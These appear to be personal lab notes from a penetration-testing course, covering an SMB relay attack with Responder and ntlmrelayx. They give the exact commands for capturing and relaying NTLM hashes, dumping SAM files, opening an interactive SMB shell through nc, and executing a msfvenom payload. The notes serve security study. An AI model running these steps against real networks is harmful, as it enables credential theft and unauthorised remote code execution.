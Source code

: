 Now we will learn how to use the hash to get some level of access(gain access to a machine).

**SMB Relay**
What if we can use the hash without cracking it. Think that hash was being sent to some server right? What if we can just relay them to some other machine.

Requirement -> SMB signing should be disabled or it will check for where the hash is coming from is it coning from the correct machine(is this hash value correct for this machine) and,
Relayed user credentials must be admin on machine.

In the responder configuration file we will Turn off SMB and HTTP.
Next configure ntlmrelayx.py we decide what targets and what to do.
![[Pasted image 20250105201014.png]]

So DNS fails then we capture the credentials and the use ntlmrelayx.py to attack the targets.
![[Pasted image 20250105201127.png]]
Note we are dumping imp files most important dumped file is SAM file has username and hashes.
Summary, we first grab a hash relay it if SMB signing is disabled and it is admin then we can dump files or we can get a shell
Before we beguine, on both the machines turn on network -> network discovery on.

How to find machines with SMB signing disables.
First method nmap with a special script, second nesses scan or some other script from github (check for safety)
![[Pasted image 20250105201909.png]]
If `Message signing enables but not required` or disabled this attack will work on that machine. Add this machine into target.txt. For our attack to keep it simple we only add one machine.

Now we will relay our credentials from responder.
Set up responder.conf file 
turn off SMB and HTTP.

Run `responder -I eth0 -rdwv`
Next step setting up the relay `ntllmrelayx.py -tf targets.txt -smb2support`
Now server is listening
On punisher machine enter some Ip that does not exist
Then on attacker machine
![[Pasted image 20250105202638.png]]
Look there are hashes you can try to crack them and work on lateral movement or just pass them around.

Now how to make this shell interactive (part2) `ntllmrelayx.py -tf targets.txt -smb2support -i`
 Now when u will simulate the attack again u will see that it writes what port it has started the shell.
 ![[Pasted image 20250105203235.png]]
`nc localhost 11000` This will give u SMB shell.
Please explore the commands in this shell.
But u can also use a msfvenom payload and listen with multi handler.
just add -e 'payload.exe' in the end.

How to defined,
![[Pasted image 20250105203802.png]]
